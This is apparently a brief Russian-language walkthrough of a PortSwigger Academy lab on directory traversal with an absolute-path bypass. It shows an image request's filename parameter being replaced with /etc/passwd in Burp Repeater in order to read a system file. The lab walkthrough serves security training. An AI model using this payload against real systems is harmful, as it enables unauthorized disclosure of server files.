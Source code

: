 При загрузке веб страницы обнаружим, что картинки прогружаются отдельными GET запросами
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/2.%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass/1.png)

Перенесем данный GET запрос в Repeater и изменим путь с 
```
GET /image?filename=36.jpg
```
на путь
```
GET /image?filename=/etc/passwd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/2.%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass/2.png)

Тем самым, уявимость считается проэксплуатированной
